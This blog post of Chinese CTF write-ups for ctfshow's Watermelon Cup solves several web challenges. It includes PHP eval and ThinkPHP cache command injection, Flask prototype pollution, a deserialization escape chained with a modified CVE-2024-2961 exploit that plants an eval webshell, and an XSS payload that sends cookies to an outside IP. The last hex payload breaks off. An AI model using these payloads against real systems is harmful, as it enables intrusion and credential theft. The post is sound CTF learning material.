+++
title = "ctfshow西瓜杯"
slug = "ctfshow-watermelon-cup"
description = "gxn出的题太好了"
date = "2025-01-24T20:35:08"
lastmod = "2025-01-24T20:35:08"
image = ""
license = ""
categories = ["ctfshow"]
tags = ["thinkphp", "php", "flask"]
+++

## CodeInject

```php
<?php

error_reporting(0);
show_source(__FILE__);

eval("var_dump((Object)$_POST[1]);");
```

直接拼接就可以了

```
1=system("tac /*f*")
```

## tpdoor

```php
<?php

namespace app\controller;

use app\BaseController;
use think\facade\Db;

class Index extends BaseController
{
    protected $middleware = ['think\middleware\AllowCrossDomain','think\middleware\CheckRequestCache','think\middleware\LoadLangPack','think\middleware\SessionInit'];
    public function index($isCache = false , $cacheTime = 3600)
    {
        
        if($isCache == true){
            $config = require  __DIR__.'/../../config/route.php';
            $config['request_cache_key'] = $isCache;
            $config['request_cache_expire'] = intval($cacheTime);
            $config['request_cache_except'] = [];
            file_put_contents(__DIR__.'/../../config/route.php', '<?php return '. var_export($config, true). ';');
            return 'cache is enabled';
        }else{
            return 'Welcome ,cache is disabled';
        }
    }
    
}
```

拿到个控制器，有很多中间件，那肯定是要拿源码了，先报错，



[tp8.0.3](https://github.com/top-think/framework/releases/tag/v8.0.3) 拿到代码之后开始找中间件漏洞，发现路径都是一起的，那也不用找了，挨个看



很容易找到是这个地方，再看看这个参数是怎么写的

```php
		if (true === $key) {
            // 自动缓存功能
            $key = '__URL__';
        } elseif (str_contains($key, '|')) {
            [$key, $fun] = explode('|', $key);
        }
```

前面是值，后面为函数，参数怎么得来的呢



是最开始的可控参数，那就行了

```
?isCache=nl /*|system
```

但是有缓存别忘了，由于环境特殊，貌似只有一次机会，所以我写的payload非常保险，不用管文件名

## easy_polluted

```python
from flask import Flask, session, redirect, url_for,request,render_template
import os
import hashlib
import json
import re
def generate_random_md5():
    random_string = os.urandom(16)
    md5_hash = hashlib.md5(random_string)

    return md5_hash.hexdigest()
def filter(user_input):
    blacklisted_patterns = ['init', 'global', 'env', 'app', '_', 'string']
    for pattern in blacklisted_patterns:
        if re.search(pattern, user_input, re.IGNORECASE):
            return True
    return False
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


app = Flask(__name__)
app.secret_key = generate_random_md5()

class evil():
    def __init__(self):
        pass

@app.route('/',methods=['POST'])
def index():
    username = request.form.get('username')
    password = request.form.get('password')
    session["username"] = username
    session["password"] = password
    Evil = evil()
    if request.data:
        if filter(str(request.data)):
            return "NO POLLUTED!!!YOU NEED TO GO HOME TO SLEEP~"
        else:
            merge(json.loads(request.data), Evil)
            return "MYBE YOU SHOULD GO /ADMIN TO SEE WHAT HAPPENED"
    return render_template("index.html")

@app.route('/admin',methods=['POST', 'GET'])
def templates():
    username = session.get("username", None)
    password = session.get("password", None)
    if username and password:
        if username == "adminer" and password == app.secret_key:
            return render_template("flag.html", flag=open("/flag", "rt").read())
        else:
            return "Unauthorized"
    else:
        return f'Hello,  This is the POLLUTED page.'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)

```

这道题对于我来说很简单，第一个点，先污染KEY，第二个点污染模版渲染符



```python
payload={
    "__init__":{
        "__globals__":{
            "app":{
                "secret_key":"mine",
                "jinja_env":{
                    "variable_start_string":"[#",
                    "variable_end_string":"#]"
                }
            }
        }
    }
}
```

然后过滤了init下划线，用Unicode绕过即可

```python
payload={
    "\u005F\u005F\u0069\u006E\u0069\u0074\u005F\u005F":{
        "\u005F\u005F\u0067\u006C\u006F\u0062\u0061\u006C\u0073\u005F\u005F":{
            "\u0061\u0070\u0070":{
                "secret\u005Fkey":"mine",
                "jinja\u005F\u0065\u006E\u0076":{
                    "variable\u005Fstart\u005F\u0073\u0074\u0072\u0069\u006E\u0067":"[#",
                    "variable\u005Fend\u005F\u0073\u0074\u0072\u0069\u006E\u0067":"#]"
                }
            }
        }
    }
}
```

然后POST注册，只不过我尝试了很久，有个异或就是为啥没有过滤`s`，但是非要把`s`也进行编码才能污染成功

```
usernmae=adminer&password=mine
```

```
session=eyJwYXNzd29yZCI6Im1pbmUiLCJ1c2VybmFtZSI6ImFkbWluZXIifQ.Z5SDKQ.TfIsu-URWn7J0ct97Gv9HNnSnHI;
```

因为使用了`json.loads`当然可以直接打非预期

```python
poc={
    "__init__" : {
        "__globals__" :{
             "app" :{
                 "secret_key": "123",
                 "_static_folder":"/"}
        }
    }
}
```

```json
{"username":"adminer","password":"123","\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f" : {"\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f" :{"\u0061\u0070\u0070" :{"\u0073\u0065\u0063\u0072\u0065\u0074\u005f\u006b\u0065\u0079": "123","\u005f\u0073\u0074\u0061\u0074\u0069\u0063\u005f\u0066\u006f\u006c\u0064\u0065\u0072":"\u002f"}}}}
```

访问`/static/flag`

## Ezzz_php

```php
<?php 
highlight_file(__FILE__);
error_reporting(0);
function substrstr($data)
{
    $start = mb_strpos($data, "[");
    $end = mb_strpos($data, "]");
    return mb_substr($data, $start + 1, $end - 1 - $start);
}
class read_file{
    public $start;
    public $filename="/etc/passwd";
    public function __construct($start){
        $this->start=$start;
    }
    public function __destruct(){
        if($this->start == "gxngxngxn"){
           echo 'What you are reading is:'.file_get_contents($this->filename);
        }
    }
}
if(isset($_GET['start'])){
    $readfile = new read_file($_GET['start']);
    $read=isset($_GET['read'])?$_GET['read']:"I_want_to_Read_flag";
    if(preg_match("/\[|\]/i", $_GET['read'])){
        die("NONONO!!!");
    }
    $ctf = substrstr($read."[".serialize($readfile)."]");
    unserialize($ctf);
}else{
    echo "Start_Funny_CTF!!!";
} Start_Funny_CTF!!!
```

字符逃逸，在NEP里面见到过，这里重新来看看

先自己测试一下

```php
<?php
class read_file{
    public $start="gxngxngxn";
    public $filename="/etc/passwd";
}
echo serialize(new read_file());
/*O:9:"read_file":2:{s:5:"start";s:9:"gxngxngxn";s:8:"filename";s:11:"/etc/passwd";}
```

由于只有`$read`所以我们要选择前移的参数，也就是只有`%9f`

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
function substrstr($data)
{
    $start = mb_strpos($data, "[");
    echo $start.'<br>';
    $end = mb_strpos($data, "]");
    echo $end.'<br>';
    return mb_substr($data, $start, $end + 1 - $start);
}
class read_file{
    public $start;
    public $filename="/etc/passwd";
    public function __construct($start){
        $this->start=$start;
    }
    public function __destruct(){
        if($this->start == "gxngxngxn"){
            file_get_contents($this->filename);
        }
    }
}
$readfile = new read_file($_GET['start']);
$read=isset($_GET['read'])?$_GET['read']:"I_want_to_Read_flag";
if(preg_match("/\[|\]/i", $_GET['read'])){
    die("NONONO!!!");
}
echo serialize($readfile)."\n";
$key = substrstr($read."[".serialize($readfile)."]");
unserialize($key);
echo $key;
```

拼接上去要是一个正常的序列化字符串来保证是肯定能够反序列化，所以不能有`[`，那直接填补84个即可，至于怎么算的，如图很容易知道






```
?start=gxngxngxn&read=%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9fO:9:"read_file":2:{s:5:"start";s:9:"gxngxngxn";s:8:"filename";s:11:"/etc/passwd";}
```

然后任意文件读取变为RCE，**CVE-2024-2961**，我还要升级一下python啥的，不然跑不了我的虚拟机

把脚本改一下[脚本](https://github.com/ambionics/cnext-exploits/blob/main/cnext-exploit.py)

[初步利用](https://github.com/vulhub/vulhub/blob/master/php/CVE-2024-2961/README.zh-cn.md)  修改的部分是

```python
    def send(self, path: str) -> Response:
        payload_file = 'O:9:"read_file":2:{s:5:"start";s:9:"gxngxngxn";s:8:"filename";s:' + str(
            len(path)) + ':"' + path + '";}'
        payload = "%9f" * (len(payload_file) + 1) + payload_file.replace("+", "%2b")
        filename_len = "a" * (len(path) + 10)
        url = self.url + f"?start={filename_len}&read={payload}"
        return self.session.get(url)

    def download(self, path: str) -> bytes:
        """Returns the contents of a remote file.
        """
        path = f"php://filter/convert.base64-encode/resource={path}"
        response = self.send(path)
        data = response.re.search(b"What you are reading is:(.*)", flags=re.S).group(1)
        return base64.decode(data)
```

```
python3 2.py http://e6bd9ae0-975b-447f-a09c-bbad744804d6.challenge.ctf.show/ "echo '<?php @eval(\$_POST[1]);?>' > 1.php"

# 由于pwn的机器是3.8，所以搞了一个虚拟环境
source py310/bin/activate
deactivate
```



## NewerFileDetector

```python
from selenium import webdriver
import time
import os

# bot nodejs puppter selenium
flag = os.getenv("flag") if os.getenv("flag") is not None else "flag{test}"

option = webdriver.ChromeOptions()
option.add_argument('--headless')
option.add_argument('--no-sandbox')
option.add_argument('--disable-logging')
option.add_argument('--disable-dev-shm-usage')

browser = webdriver.Chrome(options=option)
cookie = {'name': 'flag', 'value': flag, 'domain':'localhost','httpOnly': False}

def visit(link):
	try:
		browser.get("http://localhost:5050/check") #检测是否为vip
		browser.add_cookie(cookie)
		page_source = browser.page_source
		print(page_source)
		if "VIP" not in page_source:
			return "NONONO" # pass
		print(cookie)
		url = "http://localhost:5050/share?file=" + link
		if ".." in url:
			return "Get out!"
		browser.get(url)
		time.sleep(1)
		browser.quit()
		print("success")
		return "OK"
	except Exception as e:
		print(e)
		return "you broke the server,get out!"
```

检查是否为VIP并且进行文件共享

```python
from flask import Flask,request,session
import magika
import uuid
import json
import os
from bot import visit as bot_visit
import ast

app = Flask(__name__)
app.secret_key = str(uuid.uuid4())
app.static_folder = 'public/'
vip_user = "vip"
vip_pwd = str(uuid.uuid4())
curr_dir = os.path.dirname(os.path.abspath(__file__))
CHECK_FOLDER = os.path.join(curr_dir,"check")
USER_FOLDER = os.path.join(curr_dir,"public/user")
mg = magika.Magika()    #深度学习

def isSecure(file_type):
    D_extns = ["json",'py','sh', "html"]
    if file_type in D_extns:
        return False
    return True

@app.route("/login",methods=['GET','POST'])
def login():
    if(session.get("isSVIP")):
        return "logined"
    if request.method == "GET":
        return "input your username and password plz"
    elif request.method == "POST":
        try:
            user = request.form.get("username").strip()
            pwd = request.form.get("password").strip()
            if user == vip_user and pwd == vip_pwd:
                session["isSVIP"] = "True"
            else:
                session["isSVIP"] = "False"
            # 写入硬盘中，方便bot验证。
            file = os.path.join(CHECK_FOLDER,"vip.json") 
            with open(file,"w") as f:
                json.dump({k: v for k, v in session.items()},f)
                f.close()
            return f"{user} login success"
        except:
            return "you broke the server,get out!"

@app.route("/upload",methods = ["POST"])      
def upload():   
    try:
        content = request.form.get("content").strip()
        name = request.form.get("name").strip()
        file_type = mg.identify_bytes(content.encode()).output.ct_label #判断文件内容
        if isSecure(file_type):
            file = os.path.join(USER_FOLDER,name) 
            with open(file,"w") as f:
                f.write(content)
            f.close()
            return "ok,share your link to bot: /visit?link=user/"+ name
        return "black!"
    except:
        return "you broke the server,fuck out!"

@app.route('/')
def index():
    return app.send_static_file('index.html')

@app.route('/visit')
def visit():
    link = request.args.get("link")
    return bot_visit(link)

@app.route('/share')
def share():
    file = request.args.get("file")
    return app.send_static_file(file)

@app.route("/clear",methods=['GET'])
def clear():
    session.clear()
    return "session clear success"

@app.route("/check",methods=['GET'])
def check():
	path = os.path.join(CHECK_FOLDER,"vip.json")             #join
	if os.path.exists(path):
		content = open(path,"r").read()
		try:
			isSVIP = ast.literal_eval(json.loads(content)["isSVIP"])
		except:
			isSVIP = False
		return "VIP" if isSVIP else "GUEST"
	else:
		return "GUEST"

if __name__ == "__main__":
    app.run("0.0.0.0",5050)
```



可以看到这个文件来进行验证身份，那如果上传的时候进行了覆盖，而怎么拿到flag呢，这就要考虑文件类型了，可以看到代码中还专门注释了这个地方，所以我们直接跟进



一直跟进到这里发现了内容长度的关系





到这里发现是从配置文件里面读取的



也就是16个字符，那我们就可以随便覆盖了

```
/upload

POST:
name=../../../../app/check/vip.json&content={"isSVIP":"1"}
```

在访问`/check`发现已经成为了VIP，那我们就可以使用bot了，而涉及到bot其实很容器就想到是xss

```
name=2.html&content=<script>fetch("http://156.238.233.9:9999/?a="%2bdocument.cookie)</script>
```

```
/visit?link=user/2.html
 
python3 -m http.server 9999
```

## SendMessage

[官方WP](https://docs.qq.com/doc/DRmVUb1lOdmFMYmx1) 也不知道咋触发的，emm直接打

​                ● 使用nc和C程序交互，C程序和内网的web程序交互

​                ● 内网的web是tp8.0 

​                ● 内网的web主控制器Index 会从共享内存获取数据

​                ● C程序可以往共享内存写入数据

​                ● C程序和web程序使用同一个共享内存(写入错误格式，web报500错误来判断)


而php在处理共享内存跨进程通讯时，如果内存里面的内容可控，会直接触发反序列化操作

```python
from pwn import *
import time
#Author: ctfshow/h1xa
#Description: read flag from /f* 

address = "pwn.challenge.ctf.show"
port = 28244

data = b'\x50\x48\x50\x5F\x53\x4D\x00\x00\x28\x00\x00\x00\x00\x00\x00\x00\x18\x03\x00\x00\x00\x00\x00\x00\xF8\x23\x00\x00\x00\x00\x00\x00\x10\x27\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xCF\x02\x00\x00\x00\x00\x00\x00\xF0\x02\x00\x00\x00\x00\x00\x00\x4F\x3A\x32\x38\x3A\x22\x74\x68\x69\x6E\x6B\x5C\x72\x6F\x75\x74\x65\x5C\x52\x65\x73\x6F\x75\x72\x63\x65\x52\x65\x67\x69\x73\x74\x65\x72\x22\x3A\x31\x3A\x7B\x73\x3A\x38\x3A\x22\x72\x65\x73\x6F\x75\x72\x63\x65\x22\x3B\x4F\x3A\x31\x37\x3A\x22\x74\x68\x69\x6E\x6B\x5C\x6D\x6F\x64\x65\x6C\x5C\x50\x69\x76\x6F\x74\x22\x3A\x37\x3A\x7B\x73\x3A\x39\x